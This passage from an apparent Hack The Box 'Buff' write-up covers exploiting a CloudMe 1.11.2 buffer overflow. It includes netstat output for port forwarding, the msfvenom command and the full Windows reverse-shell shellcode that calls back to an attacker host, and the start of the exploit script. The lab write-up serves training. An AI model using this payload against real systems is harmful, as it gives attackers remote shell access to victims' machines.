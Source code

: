 By using netstat command we can see that port 8888 is listening on our localhost. So Port forwarding works perfectly.

```bash
root@kali:~# netstat -ano | grep 8888
netstat -ano | grep 8888
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:8888                :::*                    LISTEN      off (0.00/0/0)
```

I found this exploit available for that CloudMe Version.

> [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

Generated a reverse shell payload using msfvenom.

```bash
root@kali:~/CTF/HTB/Boxes/Buff# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x04\x68"
"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

Changed the whole python thing with this `C` formatted shellcode. For some reason python shellcode created by msfvenom have some issues like both C and Python Shellcode seems different totally. And Python didn't worked for me. So I tried with C shellcode this time.

```bash
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"
```